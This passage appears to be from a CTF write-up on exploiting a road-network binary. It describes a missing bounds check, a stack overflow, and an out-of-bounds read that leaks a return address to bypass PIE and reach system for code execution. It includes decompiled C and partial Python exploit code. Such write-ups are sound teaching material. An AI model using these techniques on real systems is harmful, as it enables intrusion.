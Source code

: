 The program doesn't check whether or not 100 cities have been added. This itself doesn't lead to any information leaks or writes, but it does lead to the second bug, which is an overflow in the roads array. Unlike the name_of_city array, The roads array is located in the stack. Since we can get an overflow, we can overwrite the return address of the handle function to gain RCE.

### Information leak
Before I continue, I must state that during the CTF I jumped to the system function in order to gain RCE. I tried beforehand to use a libc [one_gadget](https://github.com/david942j/one_gadget), but for some reason (I was just dumb, it wasn't because of the constraints), it wasn't working. Later in the second challenge, it did work.

Since the protection [PIE](https://en.wikipedia.org/wiki/Position-independent_code) was activated, we need a executable area leak. Since the handle function is called by the main function, its return address is a part of the executable area. With an executable area leak, we can easily get a libc leak with the puts PLT, and then jump to system.

An information leak can be gotten using the "find shortest path" function. Since every undefined road between cities was set to have infinite length (technically), the return address should most of the time have a shorter length compared to undefined roads. See below:
```c
printf("Insert city 1: ");
fgets(local_218,0x100,stdin);
strtok(local_218,"\n");
iVar1 = check_if_city_exists(local_218);
if (iVar1 == -1) {
  puts("City not exists!");
}
else {
  printf("Insert city 2: ");
  fgets(local_118,0x100,stdin);
  strtok(local_118,"\n");
  iVar2 = check_if_city_exists(local_118);
  if (iVar2 == -1) {
    puts("City not exists!");
  }
  else {
    if (road_array[(long)iVar1 * 100 + (long)iVar2] == 1000000000) {
      printf("No path from %s to %s\n",local_218,local_118);
    }
    printf("Shortest path from %s to %s: %dkm\n",local_218,local_118,
           (ulong)road_array[(long)iVar1 * 100 + (long)iVar2]);
  }
}
```
There is no check whether or not the iVar1 or iVar2 is less than 100, thus with a specific input we can get the return address value. Note: The shortest path was represented as a 32-bit integer, thus we need to leak 2 times

```python
list_names = []
for i in range(100):
  list_names.append(''.join([random.choice(string.ascii_lowercase) for j in range(10)]))
  create_city(list_names[i])

# Overflow
create_city('pwner')


## EXEC LEAK
short_path('pwner', list_names[51])
p.recvuntil(": ")
l = struct.pack("<i", int(p.recvuntil("km")[:-2]))[::-1].encode('hex')

short_path('pwner', list_names[50])
p.recvuntil(": ")
```